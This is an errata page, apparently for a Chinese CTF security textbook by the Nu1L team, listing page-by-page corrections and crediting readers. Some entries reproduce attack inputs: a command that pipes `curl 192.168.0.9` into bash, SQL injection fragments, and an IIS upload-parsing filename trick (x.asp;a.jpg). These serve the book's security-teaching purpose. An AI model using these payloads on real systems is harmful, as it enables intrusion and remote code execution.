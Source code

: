 # 勘误表

非常感谢各位热心读者对我们书籍的关注, 在书籍出版后, 进行阅读时, 由读者或我们发现了一些错误, 在此页面进行集中更正, 如果读者发现本书部分内容存在问题, 可以向 ***book#nu1l.com*** 发送邮件, 我们将在确认后在此页面即时更新, 并及时交由出版社处理.

## 图片模糊说明

书中确实有黑色背景图片导致模糊不清，我们对此深感歉意，目前已在自查，在第3次印刷中，争取全部替换。

## 勘误表

*版次: 2020年9月第1版 印次: 2020年9月第1次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 1  | 目录 | 从“CTF线下赛”页码开始出现错误，需要重新按照实际页数编写                                    |
| 2  | 235页 | 图5-1-1中的“BX AH AL”那3个格子（第2行）改为“`BX BH BL`”                                                  |
| 3  | 237页 | 表5-1-3中所有的“无符号数”与“有符号数”`对调`，“cmp a，b条件”列"jb/jnae/jc"行“a&gt;b”改为"`a<b`", "ja/jnbe"行"a&lt;b"改为"`a>b`"   |
| 4  | 450页 | 1⊕1=1改为`1⊕1=0`, 1+1(mod 2)=1改为`1+1(mod 2)=0`                                                  |
| 5  | 545页 | 10.2.5小节最后一句，“在构造Gadget候重写serialVersionUID有变化的类”修改为“在构造Gadget`时`重写serialVersionUID有变化的类”    |
| 6  | 234页 | 第四自然段中“......都是由COFF（Common File Format）格式发展......”，括号中的英文全称改为“`Common Object File Format`” |
| 7  | 234页 | 倒数第四行，“在指令中显式可见的寄存器”，改为“在`上下文`中显式可见的寄存器”                                                    |
| 8  | 238页 | 第9~10行Mircrosoft x64位调用约定处：“依次将前4个参数放入RDI、RSI、RDX、RCX”改为“依次（从左至右）将前4个参数放入`RCX、RDX、R8、R9`”   |

*版次: 2020年9月第2版 印次: 2020年9月第2次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 9  | 24页 | sqln1.php源码中，ROM改为`FROM`                                    |
| 10 | 73页 | scoat错误，应为`socat`                                                 |
| 11 | 339页 | 第339页，ASLR部分第二行 “降低攻击者对程序内存结构的了解程序”，删除最后的“`程序`” 二字   |
| 12 | 446页 |表7-3-2右边一列，表7-3-3右边两列是排版错误，应去掉这几列                                                  |
| 13 | 33页 |url中的aaaaaaaaa\应为`aaaaaaaaa'`                                                  |
| 14 | 19页 |SELECT title,content FROM wp_news WHERE id='1'#'”中的1应为`2`                                            |
| 15 | 361页 |Fast Bin Attack 节小标题序号 6.3.6.2 应为 `6.6.3.2`                                                 |
| 16 | 35页 |四级标题错误，应为`1.3.1.2`，`1.3.1.3`                                                 |
| 17 | 317页 |base block改为`basic block`（base block也有说法，但普遍都是basic block）                                             |
| 18 | 495页 | 在 lsb_encode 函数中 rgb[i] = rgb[i] & 0xfe + int(msg[count]) & 1 需要改为 `rgb[i] = (rgb[i] & 0xfe) + (int(msg[count]) & 1)` |
| 19 | 29页 | 29页下方的代码中, 第五行(注释将空格替换为空一行), 应改为 $id = str_replace(" ", "", `$id`); |
| 20 | 57页 | 第一个图1-3-22为`1-3-21` |
| 21 | 18页 | 最后一自然段中 sql2.php?id=3-2 应改为 `sql2.php?id=3-1` |
| 22 | 102页 | #generate \`curl 192.168.0.9\|sh\` 应改为 ``#generate `curl 192.168.0.9\|bash` `` |
| 23 | 341页 | 计算机中4种溢出情况中, 最后一种应为`有符号下溢` |
| 24 | 130页 | x.asp,a.jpg应为 `x.asp;a.jpg` |
| 25 | 461页 | 方程组右侧的4个1应为 `1010`，解的结果的0110应该为 `1010` |
| 26 | 467页 | 使用了相同的n,不同的模数e1 应为 `使用了相同的模数n，不同的指数e1` |

## 特别感谢

* [Prowes5](https://prowes5.github.io/): 指出目录页码印刷错误.
* [hustcw](https://blog.wh98.me/): 指出序号2中的错误.
* [流浪者](#): 指出序号9中的错误.
* [ycdxsb](http://blog.ycdxsb.cn/): 指出序号11中的错误.
* [十三年](#): 指出序号14中的错误.
* [Hh0](https://www.cnblogs.com/wrnan/): 指出序号18中的错误.
* [Adbase](#): 指出序号21中的错误.
* [kawhi](#):  指出序号22中的错误.
* [Brucy](https://blog.csdn.net/qq_41252520):  指出序号25中的错误.
* [NWPU-feng](#):  指出序号24中的错误.
